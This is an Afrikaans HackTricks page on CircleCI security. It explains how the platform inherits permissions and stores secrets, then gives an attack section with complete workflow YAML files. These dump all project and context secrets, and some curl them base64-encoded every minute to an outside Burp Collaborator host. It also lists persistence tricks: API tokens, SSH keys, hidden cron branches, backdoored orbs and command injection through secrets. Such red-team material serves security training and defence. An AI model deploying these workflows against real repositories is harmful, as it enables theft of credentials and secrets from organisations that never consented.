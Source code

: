 # CircleCI-sekuriteit

<details>

{% hint style="success" %}
Leer en oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer en oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Basiese Inligting

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) is 'n Kontinue Integrasie-platform waar jy **sjablone kan definieer** wat aandui wat jy wil hê dit met 'n bietjie kode moet doen en wanneer om dit te doen. Op hierdie manier kan jy toetse outomatiseer of ontplooiings direk **vanaf jou repo se hooftak** byvoorbeeld.

## Toestemmings

**CircleCI** **erf die toestemmings** van github en bitbucket wat verband hou met die **rekening** wat aanmeld.\
In my toetsing het ek vasgestel dat solank jy **skryftoestemmings oor die repo in github** het, sal jy in staat wees om **sy projekinstellings in CircleCI te bestuur** (nuwe ssh-sleutels instel, projek-api-sleutels kry, nuwe takke met nuwe CircleCI-konfigurasies skep...).

Jy moet egter 'n **repo-admin** wees om die repo in 'n CircleCI-projek te **omskep**.

## Omgewingsveranderlikes & Geheime

Volgens [**die dokumentasie**](https://circleci.com/docs/2.0/env-vars/) is daar verskillende maniere om waardes in omgewingsveranderlikes binne 'n werkstroom te **laai**.

### Ingeboude omgewingsveranderlikes

Elke houer wat deur CircleCI uitgevoer word, sal altyd [**spesifieke omgewingsveranderlikes hê wat in die dokumentasie gedefinieer is**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) soos `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` of `CIRCLE_USERNAME`.

### Duidelike teks

Jy kan hulle in duidelike teks binne 'n **opdrag** verklaar:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Jy kan hulle in duidelike teks binne die **uitvoeringsomgewing** verklaar:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Jy kan hulle in duidelike teks binne die **bou-werk omgewing** verklaar:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Jy kan hulle in duidelike teks binne die **omgewing van 'n houer** verklaar:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Projek Geheime

Hierdie is **geheime** wat slegs deur die **projek** (deur **enige tak**) toeganklik sal wees.\
Jy kan hulle sien **gedeklareer in** _https://app.circleci.com/settings/project/github/\<org\_naam>/\<repo\_naam>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
Die "**Invoer Veranderlikes**" funksionaliteit maak dit moontlik om **veranderlikes van ander projekte** na hierdie een in te voer.
{% endhint %}

### Konteks Geheime

Hierdie is geheime wat **org-wye** is. Standaard sal enige repo in staat wees om enige geheim wat hier gestoor word, te **benader**:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Let wel dat 'n ander groep (in plaas van Alle lede) **gekies kan word om slegs toegang tot die geheime aan spesifieke mense te gee**.\
Dit is tans een van die beste maniere om die sekuriteit van die geheime te **verhoog**, om nie almal toegang daartoe te gee nie, maar net sommige mense.
{% endhint %}

## Aanvalle

### Soek Duidelike Teks Geheime

As jy **toegang het tot die VCS** (soos github) kyk na die lêer `.circleci/config.yml` van **elke repo op elke tak** en **soek** vir potensiële **duidelike teks geheime** wat daarin gestoor is.

### Geheime Omgewingsveranderlikes & Konteks enumerasie

Deur die kode te ondersoek, kan jy **al die geheimname** vind wat in elke `.circleci/config.yml` lêer gebruik word. Jy kan ook die **konteksname** uit daardie lêers kry of dit in die webkonsole nagaan: _https://app.circleci.com/settings/organization/github/\<org\_naam>/contexts_.

### Exfiltreer Projekgeheime

{% hint style="warning" %}
Om **ALLE** die projek- en konteks **GEHEIME** te **exfiltreer**, hoef jy net **SKRYF** toegang tot **net 1 repo** in die hele github org te hê (_en jou rekening moet toegang tot die kontekste hê, maar standaard kan almal toegang tot elke konteks kry_).
{% endhint %}

{% hint style="danger" %}
Die "**Invoer Veranderlikes**" funksionaliteit maak dit moontlik om **veranderlikes van ander projekte** na hierdie een in te voer. Daarom kan 'n aanvaller **alle projekveranderlikes van al die repos** invoer en dan **almal saam exfiltrate**.
{% endhint %}

Al die projekgeheime word altyd in die omgewing van die take ingestel, dus deur net omgewing te noem en dit in base64 te verduister, sal dit die geheime in die **werkstroom webkonsole-log** exfiltrate:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Indien jy **nie toegang het tot die webkonsole** nie, maar jy het **toegang tot die repo** en jy weet dat CircleCI gebruik word, kan jy net **'n werkstroom skep** wat elke minuut **geaktiveer word** en wat die geheime na 'n eksterne adres **onttrek**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Uitlek van Konteksgeheime

Jy moet die **konteksnaam spesifiseer** (dit sal ook die projekgeheime uitlek):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Indien jy **nie toegang het tot die webkonsole** nie, maar jy het **toegang tot die repo** en jy weet dat CircleCI gebruik word, kan jy net 'n **werkstroom wysig** wat elke minuut **geaktiveer word** en wat die geheime na 'n eksterne adres **uitlek**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Net die skep van 'n nuwe `.circleci/config.yml` in 'n repo **is nie genoeg om 'n CircleCI-bou te trigger** nie. Jy moet dit **aktiveer as 'n projek in die CircleCI-konsole**.
{% endhint %}

### Ontsnapping na die Wolk

**CircleCI** gee jou die opsie om **jou bouprojekte op hul rekenaars of op jou eie rekenaars** uit te voer.\
Standaard is hul rekenaars geleë in GCP, en aanvanklik sal jy nie enige relevante inligting vind nie. Tog, as 'n slagoffer die take in **hul eie rekenaars (moontlik in 'n wolkomgewing)** uitvoer, kan jy 'n **wolkmetadatabron met interessante inligting daarop vind**.

Let daarop dat in die vorige voorbeelde alles binne 'n dokkerhouer uitgevoer is, maar jy kan ook vra om 'n VM-rekenaar te laat begin (wat moontlik verskillende wolkregte kan hê):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Of self 'n docker-houer met toegang tot 'n afgeleë docker-diens:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Volharding

* Dit is moontlik om **gebruikerstokens in CircleCI te skep** om toegang tot die API-eindpunte met die gebruikers se toegang te verkry.
* _https://app.circleci.com/settings/user/tokens_
* Dit is moontlik om **projekstokens te skep** om toegang tot die projek met die toestemmings wat aan die token gegee is, te verkry.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Dit is moontlik om **SSH-sleutels by die projekte toe te voeg**.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Dit is moontlik om **'n cron-werk in 'n verborge tak** in 'n onverwagte projek te skep wat elke dag al die **konteksomgewings** vertroulik maak.
* Of selfs 'n tak skep / 'n bekende werk wysig wat elke dag al die konteks en **projekgeheime lek**.
* As jy 'n github-eienaar is, kan jy **onbevestigde orbs toelaat** en een in 'n werk as **agterdeur** konfigureer.
* Jy kan 'n **bevelinspuitingskwesbaarheid** in 'n paar take vind en bevele **inspuit** deur 'n **geheim** te wysig deur sy waarde aan te pas.

<details>

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
